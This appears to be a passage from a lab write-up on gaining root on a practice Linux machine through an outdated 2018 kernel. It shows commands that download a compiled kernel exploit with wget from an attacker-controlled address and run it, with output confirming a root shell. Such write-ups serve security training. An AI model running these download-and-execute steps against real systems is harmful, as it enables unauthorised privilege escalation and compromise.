

# 15 - PrivEsc

# Old linux
```bash
help@help:/home/help$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

The linux kernel is from 2018, it is another outdated kernel considering the box is published in 2019.

# Kernel Exploit


Download  the exploit and compile.

# Root
```bash
help@help:/home/help$ wget 10.10.14.14/a.out
help@help:/home/help$ chmod +x a.out 
help@help:/home/help$ ./a.out 
task_struct = ffff880039252a00
uidptr = ffff8800161cd144
spawning root shell
root@help:/home/help# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
```